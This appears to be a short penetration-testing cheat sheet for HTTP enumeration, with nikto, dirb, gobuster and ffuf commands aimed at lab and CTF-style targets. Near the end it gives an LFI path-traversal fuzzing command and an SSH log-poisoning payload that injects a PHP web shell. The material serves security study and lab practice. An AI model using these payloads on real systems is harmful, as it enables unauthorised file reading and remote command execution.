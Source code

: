 # HTTP and HTTPS

### Port 80 and 443

`nikto -h 10.10.10.10`

Dirb

[ `dirb http://10.10.10.228/`](http://10.10.10.228/portal/)

Dirbuster

Gobuster\
`gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u` [`http://10.10.10.237/`](http://10.10.10.237)

`gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u` [`http://10.10.10.237/ -t 42 -x .php,.txt`](http://10.10.10.237)

`gobuster -w /SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt vhost -u` [`http://monitors.htb`](http://monitors.htb)``\
``

To bypass if status code is 200 or 400 for all directories, use -b.\
else we can use -s to include response-codes.\
``\
`gobuster dir -u http://192.168.206.148:12380/ -w ../directory-list-2.3-medium.txt -t 32 -x .php,.txt -b 400`

FFUF\
`ffuf -w SecLis­ts/­Dis­cov­ery­/DN­S/s­ubd­oma­ins­-to­p1m­ill­ion­-50­00.txt -u` [`http:/­/un­dis­cov­ere­d.thm/`](https://cheatography.com/%22http://undiscovered.thm/%22) `-H "­Host: FUZZ.u­ndi­sco­ver­ed.t­hm­" -fc 302`

ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u "http://192.168.120.14/secret\_information/?lang=../../../../../../../FUZZ"



For .php file, try with LFI parameters. ?file=\
\
Auth Log Bypass

```
 ssh '<?php system($_GET['cmd']); ?>'@192.168.120.170
```
